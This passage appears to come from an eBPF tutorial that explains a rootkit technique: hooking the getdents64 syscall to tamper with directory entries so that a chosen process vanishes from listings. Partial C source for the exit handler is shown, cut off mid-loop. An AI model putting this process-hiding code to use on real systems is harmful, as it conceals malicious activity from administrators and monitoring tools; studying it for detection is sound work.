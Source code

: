 Next, we declare a structure called `linux_dirent64`. This structure represents a Linux directory entry and contains metadata such as the inode number, the offset of the next directory entry, the length of the current directory entry, the file type, and the filename.

Then there is the prototype for the `getdents64` function. This function is a Linux system call that reads the contents of a directory. Our goal is to modify the directory entries during the execution of this function to enable process hiding.

The subsequent section is the concrete implementation of the eBPF program. We define a function called `handle_getdents_enter` at the entry point of the `getdents64` system call. This function first gets the PID and thread group ID of the current process, and then checks to see if it is the process we are interested in. If we set `target_ppid`, then we only focus on processes whose parent has a PID of `target_ppid`. If `target_ppid` is 0, we focus on all processes.

After confirming that the current process is the one we are interested in, we save the arguments to the `getdents64` system call into a map to be used when the system call returns. In particular, we focus on the second argument to the `getdents64` system call, which is a pointer to the `linux_dirent64` structure representing the contents of the directory to be read by the system call. We save this pointer, along with the current PID and thread group ID, as a key-value pair in the `map_buffs` map.

This completes the processing at the entry point of the `getdents64` system call. When the system call returns, we will modify the directory entry in the `handle_getdents_exit` function to hide the process.

In the next snippet, we will implement the handling at the return of the `getdents64` system call. Our main goal is to find the process we want to hide and modify the directory entry to hide it.

We start by defining a function called `handle_getdents_exit` that will be called when the `getdents64` system call returns.

```c

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_exit(struct trace_event_raw_sys_exit *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int total_bytes_read = ctx->ret;
    // if bytes_read is 0, everything's been read
    if (total_bytes_read <= 0) {
        return 0;
    }

    // Check we stored the address of the buffer from the syscall entry
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_buffs, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // All of this is quite complex, but basically boils down to
    // Calling 'handle_getdents_exit' in a loop to iterate over the file listing
    // in chunks of 200, and seeing if a folder with the name of our pid is in there.
    // If we find it, use 'bpf_tail_call' to jump to handle_getdents_patch to do the actual
    // patching
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp = 0;
    int pid = pid_tgid >> 32;
    short unsigned int d_reclen = 0;
    char filename[MAX_PID_LEN];

    unsigned int bpos = 0;
    unsigned int *pBPOS = bpf_map_lookup_elem(&map_bytes_read, &pid_tgid);
    if (pBPOS != 0) {
        bpos = *pBPOS;
    }

    for (int i = 0; i < 200; i ++) {
```